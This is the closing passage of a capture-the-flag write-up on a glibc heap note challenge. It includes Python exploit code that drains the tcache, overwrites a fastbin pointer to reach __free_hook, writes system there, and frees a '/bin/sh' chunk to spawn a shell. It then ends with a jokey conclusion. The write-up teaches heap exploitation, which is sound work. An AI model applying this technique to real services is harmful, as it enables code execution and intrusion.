log.info('Drain tcache...')
alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
alloc(b'AAAAAAAAAAAAAAAAAAAAAAA')
log.success('tcache drained')

# Smash fastbin fd pointer
log.info('Overwrite fastbin fd...')
free(tmp3)
tmp3 = alloc(p64(free_hook-0x10))

# This will write our desired contents into free_hook
log.info('Overwrite free_hook')
alloc(p64(system))
```

## Getting a shell

We're pretty much done at this point. Since we've smashed the `free_hook` value, we just need to free some chunk that holds "/bin/sh".

```python
# Trigger!
log.info('Trigger shell!')

free(alloc(b'/bin/sh'))

p.interactive()
```

And with that, we have a shell. And we can just type `ls` and `cat flag.txt` into it :-)

# 6. Conclusion

Whew, that was quite the journey. We audited the source code and felt defeated, learned about CPUs, then learned all about malloc internals, then we finally produced a working exploit. You can find the full exploit code [here](./solve.py).

Thing is, most big targets nowadays are **much harder than this**. Chrome, Safari, Linux, XNU, all have much more hardening, mitigations, and checks than some plain old glibc heap note challenge. My personal recommendation is that Apple, Microsoft, Google, etc. stop adding them, because they makes my job harder :-( But on the bright side, I guess if the job is harder, fewer people can do it, so that means supply and demand dictates that my salary will be higher 

Anyways, hope you learned something and make sure to Like Comment and Subscribe. You can also join my [OnlyFans](https://onlyfans.com/basteg0d69) where I post pics of my cooking or support me on [GitHub sponsors](https://github.com/sponsors/stong). bye

